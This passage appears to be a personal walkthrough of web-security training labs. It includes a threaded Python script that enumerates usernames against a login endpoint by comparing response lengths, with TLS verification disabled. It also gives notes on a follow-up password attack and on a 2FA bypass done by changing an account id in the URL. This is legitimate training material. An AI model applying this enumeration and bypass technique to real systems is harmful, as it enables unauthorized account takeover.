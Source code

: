 ```python
    "akamai", "al", "alabama", "alaska", "albuquerque", "alerts", "alpha", "alterwind", "am", "amarillo",
    "americas", "an", "anaheim", "analyzer", "announce", "announcements", "antivirus", "ao", "ap", "apache",
    "apollo", "app", "app01", "app1", "apple", "application", "applications", "apps", "appserver", "aq",
    "ar", "archie", "arcsight", "argentina", "arizona", "arkansas", "arlington", "as", "as400", "asia",
    "asterix", "at", "athena", "atlanta", "atlas", "att", "au", "auction", "austin", "auth",
    "auto", "autodiscover"
]
passwords = ['test']

def brute_force(username, password):
    for i in range(10):
        try:
            response = requests.post(
                TARGET_URL,
                cookies=cookies,
                headers=headers,
                data={'username': username},
                verify=False,
                timeout=5
            )
            if len(response.text) != 3132:
                print(username)
            #print(f"[{username}] Try {i+1}/10 - Status: {response.status_code}, Length: {len(response.text)}")
        except requests.RequestException as e:
            print(f"[{username}] Error: {e}")

with ThreadPoolExecutor(max_workers=20) as executor:
    _ = [executor.submit(brute_force, u, 'test') for u in usernames]

```

- So after I noticed that all (almost all) `responses.text` were 3132 (in my case) length, I decided to just print one with another length and use it for the next step - running sniper attack for this user, which was pretty fast actually

### Vulnerabilities in MFA (Apprentice)

#### Lab: 2FA simple bypass

- Investigate how 2fa works - try to login via your credentials and use Email to authenticate to your account, pay attention to URL, log out
- Login as `carlos` and instead of trying to gues 4 numbers just update URL similar to yours but with `id=carlos`

### Vulnerabilities in MFA (Practitioner)
